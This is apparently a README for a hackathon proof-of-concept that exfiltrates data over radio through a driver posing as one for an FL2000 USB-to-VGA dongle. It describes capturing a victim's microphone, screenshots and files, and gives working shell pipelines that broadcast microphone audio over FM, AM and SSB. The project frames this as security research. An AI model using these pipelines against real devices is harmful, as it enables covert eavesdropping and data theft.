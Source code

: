 # RF-Xfil | Prototype Toolkit for Data Exfiltration over Radio Frequencies
## Started by Jie Feng, Ragul & Andre Dec 2018 @ HackSmith v2.0

![HackSmith v2 Award](misc/HackSmith_Award.jpg)

Imagine your dongle (of which many modern devices depend on) is exfiltrating information over RF! Thats exactly the Proof-Of-Concept we managed to showcase at HackSmith v2 over the 8-9 Dec 2018 weekend.

By writing "simulated malicious" code masquerading as the device driver for a inexpensive off the shelf USB-to-VGA dongle based off the infamous Fresco Logic FL2000 chipset, we were able to exfiltrate not only the audio from the victim laptop's microphone and SSTV of a screenshot, but also built modulation (inspired by fax and work done by romanz/amodem) robust enough to transfer screenshots and any arbitary files.

Demodulation code to be used with generic inexpensive RTL-SDRs is also in here.

We feel that more people should take an active interest in & do research into electronics & RF.

Lets see what other overpowered embedded devices can be used to do mindblowing things.


### Dependencies
osmo-fl2k
CSDR
Liquid DSP


### Installation

1. Install Dependencies required
Example: ubuntu
```
sudo apt install build-essential cmake pkg-config libfftw3-dev libusb-1.0-0-dev automake
```
2. run autoinstall.sh
```
./autoinstall.sh
```

### Using RF-Xfil main features 

figure out your microphone
```
pacmd list-sources | grep alsa_input
        name: <alsa_input.pci-0000_00_1f.3.analog-stereo>
```

figure out your sound output
```
pacmd list-sources | grep name | grep monitor
        name: <alsa_output.pci-0000_00_1f.3.analog-stereo.monitor>
```

Transmitting audio:
Replace the '-d' with the one appriopriate to your purposes
WBFM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | pv -B 256k | fl2k_fm - -s 130e6 -c 40e6 -i 44100
```
AM:
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr add_dcoffset_cc | csdr convert_f_i16 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```

SSB(USB):
```
pacat -r -d alsa_input.pci-0000_00_1f.3.analog-stereo | csdr convert_i16_f | csdr dsb_fc | csdr bandpass_fir_fft_cc 0 0.1 0.01 | csdr gain_ff 2 | csdr shift_addition_cc 0.2 | src/fl2k_iq - -s 130e6 -c 40e6 -i 44100
```

\
